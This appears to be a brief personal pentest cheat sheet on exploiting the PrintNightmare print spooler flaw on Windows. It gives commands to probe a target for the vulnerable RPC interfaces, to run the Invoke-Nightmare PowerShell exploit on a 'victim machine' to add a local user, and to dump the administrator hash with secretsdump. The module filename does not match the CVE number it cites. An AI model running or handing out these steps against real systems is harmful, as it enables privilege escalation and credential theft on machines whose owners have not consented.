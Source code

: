 # Printnightmare
--------------
Checking for printnightmare using rpcdump.py 
```bash
python3 /opt/wintools/impacket/examples/rpcdump.py 10.10.11.106 | egrep 'MS-RPRN|MS-PAR'
```

## using Invoke-Nightmare
https://github.com/calebstewart/CVE-2021-1675
upload the ps1 script to the victim machine
```
PS> Import-Module .\CVE-2021-16756.ps1
PS> Invoke-Nightmare -NewUser "cbbn" -NewPassword "passw0rd123"
```

check if the user is added, then use secretsdump.py to get the hash of the administrator.

More cases to exploit printnightmare:
https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html
